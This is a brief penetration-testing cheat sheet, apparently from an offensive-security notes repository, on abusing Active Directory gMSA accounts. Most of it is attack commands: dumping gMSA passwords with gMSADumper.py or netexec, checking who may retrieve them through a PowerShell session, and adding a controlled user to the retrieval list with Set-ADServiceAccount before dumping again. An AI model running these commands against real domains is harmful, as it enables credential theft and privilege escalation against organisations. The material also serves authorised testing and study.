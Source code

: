 # gMSA Passwords:

Find users controled by gMSA Passwords (externaly from your machine), it also check users who can revel the passwords.

`gMSADumper.py -u <user you control> -p <password> -d <domain>` or `nxc ldap <ip> -u <user you control> -p <password> --gmsa`


If you have access to a internal powershell session (evil-winrm, for example) you can also check this information for a particular user:

`Get-ADServiceAccount -Identity <user controlled by gMSA Passwords> -Properties PrincipalsAllowedToRetrieveManagedPassword`


In case you have access, and permisions inside powershell session you can include yourself into the list of users who can revel the passwords:

`Set-ADServiceAccount -Identity <user controlled by gMSA Passwords> -PrincipalsAllowedToRetrieveManagedPassword <user you control>`


Then try to retrive passwords again with gMSADumper.py or netexec.
